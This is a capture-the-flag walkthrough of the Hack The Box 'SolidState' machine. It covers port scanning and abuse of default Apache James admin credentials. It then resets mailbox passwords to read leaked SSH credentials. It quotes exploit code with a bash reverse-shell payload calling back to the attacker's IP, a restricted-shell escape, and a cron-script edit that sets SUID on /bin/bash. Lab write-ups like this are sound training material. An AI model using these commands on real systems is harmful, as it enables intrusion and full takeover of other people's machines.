

# SolidState

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Medium |
| **Topics** | Apache James 2.3.2, JAMES pop3d 2.3.2, JAMES smtpd 2.3.2, RCE, Default Credentials, Crontab List Jobs Root Script |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

All Ports

```python
sudo nmap -sS -p- --open --min-rate 5000 -Pn -n -vvv 10.10.10.51 -oN AllPorts
```

Result:

```python
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
25/tcp  open  smtp    syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
110/tcp open  pop3    syn-ack ttl 63
4555/tcp open  rsip    syn-ack ttl 63
```

> Note: For some reason the SYN Scan is not detecting the port 4555 open, so, we can check manually if this port is open by specifying that port.
> 

Full Scan

```python
nmap -p 22,25,80,110 -sCV -Pn -n 10.10.10.51 -oN FullScan -v
```

Result: 

```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.16.5 [10.10.16.5])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3    JAMES pop3d 2.3.2
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.93%I=7%D=11/15%Time=63746512%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nP
SF:lease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPassw
SF:ord:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Quick note: This OpenSSH is vulnerable to SSH Enumeration. Refer to
> 

`22 - Pentesting SSH Username Enumeration`

Mail Nmap Scan

```python
nmap -p 25,110 --script smtp-* -n 10.10.10.51 -oN SmtpNmapScan
```

Result:

```python
PORT     STATE SERVICE
25/tcp   open  smtp
|_smtp-open-relay: Server is an open relay (2/16 tests)
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.16.5 [10.10.16.5])
| smtp-enum-users: 
|_  root
110/tcp  open  pop3
4555/tcp open  rsip
```

Web Nmap Scan

```python
nmap -p 22,25,80,110 -sCV -Pn -n 10.10.10.51 -oN FullScan -v
```

Result:

```python
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /README.txt: Interesting, a readme.
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'

```

# Initial Access

After the initial enumeration we can see the port 4555 open, which belongs to Apache James Administration. 

Doing a simple search for Apache James 2.3.2 we will see some exploits associated with this service:



> Reference:
> 

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/35513)

However, by checking the source code it looks we need to be authenticated:

```python
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
```

Let’s check if we have default credentials configured for this machine:

```python
telnet 10.10.10.51 4555
```

Enter the crendentials when prompted:


Sucess! We have default credentials. However, by checking the rest of the code for this exploit, we will see that we need a username to log in via SSH into the machine.

```python
# Select payload prior to running script - default is a reverse shell executed upon any user logging in (i.e. via SSH)
payload = '/bin/bash -i >& /dev/tcp/' + local_ip + '/' + port + ' 0>&1' # basic bash reverse shell exploit executes after user login
...
...
...
print ("[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).")
    if '/bin/bash' in payload:
        print ("[+]Don't forget to start a listener on port", port, "before logging in!")
```

Based on this information, let’s find out any relevant data in the mail server. Since we have access as root to the Administration Panel, something we can do is to reset the password mail accounts.

First, let’s connect again to the port 4555:

```python
telnet 10.10.10.51 4555
```

Use the credentials root:root when prompted.

Check the available commands: 

```python
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

We will see the commands `listusers` and `setpassword` available, so, let’s first list the usernames available:

```bash
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

There are in total 5 user accounts available, those accounts may contains valuable information as they were already part of the system. 
Next step will be to set a new password for each account, for this, we use the command `setpassword` followed by the `username` and the new `password`:

```bash
setpassword james james
Password for james reset

setpassword thomas thomas
Password for thomas reset

setpassword john john
Password for john reset

setpassword mindy mindy
Password for mindy reset

setpassword mailadmin mailadmin
Password for mailadmin reset

```

Noticed that I assigned the same name of the account as the password. 

Once we have reset all the passwords, let’s check each email account for any valuable information. For this task, we will connect via telnet to the port 110 using each user from the previous list.  

Checking the emails for James. To list the emails we use the command `list`

```python
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user john
+OK  ---> // This means that the user is valid
pass john
+OK Welcome john ---> // This means that the password is valid
list
+OK 1 743
1 743 --> // This indicates that there is 1 email in our inbox
.
```

To retrieve/read the content of the email we need to use the command  `RETR` followed by the number of the email we want to read (in case there are more than one):

```python
RETR 1 --> //Retrieves the email number 1

+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

There is no sensitive information, however, this email give us a clue that maybe Mindy has a recent email containing credentials

Checking the emails for Mindy:

```python
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user mindy
+OK
pass mindy
+OK Welcome mindy
list
+OK 2 1945
1 1109   --> //email #1
2 836    --> //email #2
```

In this case we can see that there are 2 emails in Mindy’s Inbox, let’s try to retrieve both:

```python
RETR 1 ---> Checking email #1

+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
```

Not relevant information at all, just a welcome message. Let’s check the second one:

```python
RETR 2 ---> Checking email #2

+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Success! We see some clear credentials for SSH.

Let’s first test these credentials:


Success!! Credentials are working, however, as the email mentioned, this user is restricted, so, we can’t do much at this moment. 

> 🚨Disclaimer: We can escape from the restricted shell by adding to the SSH command the following argument: `-t "bash --noprofile"`By doing this, we can saved one extra step as we don’t need to execute the exploit to get a unrestricted reverse shell
> 

> Command should be: `ssh mindy@10.10.10.51 -t "bash --noprofile"`
> 

Note: Users `James` ,`John` and `mailadmin` had an empty inbox.

## Executing the Exploit - Apache James 2.3.2

Since we have the credentials for Apache James Administration Panel and also got valid SSH credentials, we can execute the exploit previously seem. 

Steps:

1.  Download the following exploit:
https://github.com/am0nsec/exploit/blob/master/linux/http/ApacheJamesServer-2.3.2/apache_james_2-3-2.py

1.  Modify the payload (reverse shell)

```bash
# specify payload
payload = '/bin/bash -i >& /dev/tcp/listener-ip/listener-port 0>&1 ' 
#should be:
payload = '/bin/bash -i >& /dev/tcp/10.10.16.5/443 0>&1 ' 
```

1. - Run the exploit as follows:

```bash
python2.7 apache_james_2-3-2.py <target-ip>
```

1.  Open a listener cat over the port specified in the payload (usually 443)
2.  Log in via SSH with the credentials from Mindy previously gathered from the email.

```bash
ssh mindy@10.10.10.51 
-> P@55W0rd1!2@
```

1.  We should receive a reverse shell in our listener.
2. Export the environment variables (optional)

```bash
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

1.  Check if commands work as usual


# Privilege Escalation

Once we have logged as `Mindy` we need to identify potential vectors of privelege escalation, usually we can check id, groups, file passwd and shadow, cron jobs and writable files.

First by checking the ID we didn’t get much information we can use:


> No relevant groups that we are part of.
> 

Files passwd and shadow:


> Files are not writable
> 

Cronjobs:


> No relevant cronjobs
> 


Writable Files:

```bash
#Command 
find / -writable -type f 2>/dev/null | grep -vE "proc|sys"
```

Bingo, we will see an interesting file identified as `/opt/tmp.py`.


 

Let’s check its content and permissions:


First, we can see that it has all permissions granted (rwx) and also we can see that `root` is the propietary of the file.

Second, the file is a python script that basically removes/deletes everything from directory `/tmp/`. This may indicate a possible cron job running in the background, however, as we saw there were no cronjobs that we could see, this could be because the task is running as root and it’s not visible to low-privilege users. 

However, there is another way to check any cronjob or task being executed in the background that is non-visible to our current user, we can use the following bash script to check those tasks:

Bash script:

```bash
#!/bin/bash

old_process=$(ps -eo command)

A=0 

while A=0:
do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
        old_process=$new_process

done
```

Reference: `Crontab List Jobs Root Script` 

Copy this script on the target machine and execute it. 


After a few minutes we will see the execution of the python script we just found, which seems to be executed by root. 


Based on this information, let’s change the content of `/opt/tmp.py` and replace the instruction with a `chmod u+s /bin/bash` which basically assigns the SUID privilege to the bash. 

Result: 


Saved it and wait until it gets executed. 

Then a few minutes later will see the SUID assigned to the /bin/bash

```bash
1236 -rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
```

Sucess! Now we need to simple launch a privilege bash with `bash -p`


[Owned SolidState from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/85)